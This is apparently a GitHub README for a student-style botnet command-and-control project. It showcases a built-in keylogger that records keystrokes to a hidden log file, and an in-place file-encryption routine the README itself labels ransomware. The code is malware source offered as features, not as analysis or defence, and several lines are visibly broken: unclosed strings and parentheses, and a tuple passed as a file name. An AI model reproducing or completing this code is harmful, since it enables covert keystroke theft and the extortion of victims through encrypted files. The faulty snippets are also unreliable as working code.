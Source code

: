 # Botnet-Command-Control
Explain what our program here!!!

### show how to install VMs & put links to the VM images we used. 

### Show how to initiate Command & Control server & create a symbolic link
```bash
```

## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += ''
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t
		elif key == key.cmd: LOG += ' cmd+'
		else:
			LOG += str(key

def log_to_file():
	if SYSTEM == 'Linux':
		f = open(LIN_DIR + 'log.txt', 'w')
		f.write(LOG)
	else:
		f = open(WIN_DIR + 'log.txt', 'w')
		f.write(LOG) # Write keystrokes to file.
	cycle = Timer(SECONDS_TO_LOG, log_to_file)
	cycle.daemon = True
	cycle.start()

def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations.
```python
def crypto(action, *request):
	key_copy = ''

	def encrypt_it():
		to_encrypt = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf:
				key = Fernet.generate_key()
				key_copy = key
				cipher = Fernet(key)
				cipher_text = cipher.encrypt(data)
				ouf.write(cipher_text)
		return r'File encrypted... Key = ' + key_copy + '. Store this key for decryption.'
	
	def decrypt_it():
		to_encrypt, key = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf: 
				cipher = Fernet(key)
				plain_text = cipher.decrypt(data)
				ouf.write(plain_text)
		return r'File Decrypted...'
	if action == 'encrypt':
		return encrypt_it()
	else:
		return decrypt_it()
```
